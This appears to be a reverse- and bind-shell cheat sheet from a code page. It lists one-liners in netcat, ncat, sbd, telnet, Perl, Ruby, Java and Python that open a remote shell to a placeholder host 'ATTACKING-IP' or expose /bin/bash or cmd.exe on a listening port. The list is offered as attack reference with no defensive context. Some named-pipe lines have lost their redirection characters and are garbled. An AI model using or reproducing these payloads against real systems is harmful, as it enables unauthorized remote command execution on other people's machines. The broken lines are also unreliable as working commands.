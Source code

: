 ## Netcat Shells

```
nc -nvlp 5555 -e /bin/bash
nc 192.168.1.101 5555 -e /bin/bash

without -e flag
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```
* ncat is similar to nc but also supports ssl for encryption

```
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -nv <ip_to_connect> 4444
```

## SBD shells

```
sbd -lp 4444 -k secret -e /bin/bash
sbd -k secret 127.0.0.1 4444
```

## Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## Perl

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
